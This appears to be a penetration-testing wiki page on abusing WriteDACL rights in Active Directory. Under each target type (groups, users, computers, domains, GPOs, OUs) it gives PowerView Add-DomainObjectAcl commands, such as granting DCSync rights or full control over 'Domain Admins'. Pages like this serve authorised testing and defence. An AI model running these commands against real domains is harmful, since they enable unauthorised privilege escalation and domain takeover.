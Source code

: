 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WriteDACL

## Information

With write access to the target object’s DACL, you can **grant yourself any privilege you want on the object**.

## Exploitation

### Over a Group

Grant yourself full control of the group -> Add members to the group (see [here](genericall.md#over-a-group)).

```powershell
# Assigning the right 
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers
```

### Over a User

Grant yourself full control of the user -> See [here](fullcontrol.md) for exploitation options.

```powershell
# Assigning GenericAll permissions over the user
Add-DomainObjectAcl -TargetIdentity harmj0y -Rights All
```

### Over a Computer

Grant yourself full control of the computer ->  [read the LAPS password](readlapspassword.md) or perform [RBCD](../attacks/delegation/resource-based.md) against the target computer.

```powershell
# Assigning GenericAll permissions over the computer
Add-DomainObjectAcl -TargetIdentity windows01 -Rights All
```

Then some options are

### Over a Domain

Grant yourself DCSync rights -> perform a [DCSync attack](dcsync.md).

```powershell
Add-DomainObjectAcl -TargetIdentity testlab.local -Rights DCSync
```

### Over GPOs

Grant yourself full control of the GPO -> edit the GPO to take over an object the GPO applies to.

```powershell
Add-DomainObjectAcl -TargetIdentity TestGPO -Rights All
```

### Over OUs

Grant yourself full control of the OU -> Add a new ACE to the OU that inherits down to child objects to take over those child objects.

```powershell
Add-DomainObjectAcl -TargetIdentity (OU GUID) -Rights All
```
